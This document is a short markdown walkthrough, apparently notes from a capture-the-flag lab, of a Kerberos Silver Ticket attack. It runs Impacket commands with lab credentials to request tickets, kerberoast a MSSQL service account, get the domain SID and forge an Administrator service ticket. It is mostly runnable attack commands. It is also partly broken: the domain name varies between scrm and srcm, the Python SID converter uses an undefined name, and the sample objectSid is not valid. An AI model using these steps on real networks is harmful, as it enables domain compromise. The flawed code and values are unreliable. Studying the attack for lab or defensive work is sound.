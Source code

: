 # Silver Ticket Attack in Kerberos

- With valid credentials:
```bash
python3 getTGT.py scrm.local/ksimpson:ksimpson 
```

- Saved ticket should be exported to KRB5CCNAME
- Find valid user SPNs:
```bash
python3 GetUserSPNs.py scrm.local/ksimpson -dc-host dc1.scrm.local -k -request
```

- We now have Service Prinicpal Names for a MSSQL service and have requested a TGT
- Perform offline hash cracking for the service password. 
This alone does not work for logging into the MSSQL database. 
A TGS is required. First obtain the service's TGT.
```bash
python3 getTGT.py scrm.local/sqlsvc:Pegasus60
export KRB5CCNAME=mssqlsvc.ccache
```

- Generate an NTLM hash for the service username using on online tool.
- Convert to lowercase, just to be safe. It could potentially be case sensitive.
- Obtain domain SID. This can be obtained from any user:
```bash
python3 getPac.py -targetUser administrator srcm.local/ksimpson:ksimpson
```

- Forge the TGS:
```bash
python3 ticketer.py -spn <svc_name> -user-id 500 Administrator -nthash <svc_hash> -domain-sid <domain_sid> -domain srcm.local
```
- We now have an administrator ccache

- Alternatively, to obtain the domain SID using LDAP:
```bash
ldapsearch -H ldap://dc1.srcm.local -U ksimpson -b 'DC=SCRM,DC=LOCAL' | grep -i sid

objectSid:: AFEFFFDAAAADAFAFASED398ya67x==
```

- LDAP uses it's own formatting so we need to convert it (binary to string):
```py
import struct
import base64
import sys

def convert(binay):
  version = struct.unpack('B', binary[0:1])[0]
  assert version == 1, version
  length = struct.unpack('B', binary[1:2])[0]
  authority = struct.unpack(b'>Q', b'\x00\x00' + binary[2:8])[0]
  string = 'S-%d-%d' % (version, authority)
  
  binary = binary[8:]
  assert len(binary) == 4 * length
  
  for i in range(length):
    value = struct.unpack('<L', binary[4*i:4*(i+1)])[0]
    string += '-%d' % value
    
  return string
   
b64Sid=sys.argv[1]
sid=base64.b64decode(b64Sid)
print(convert(sid))
```


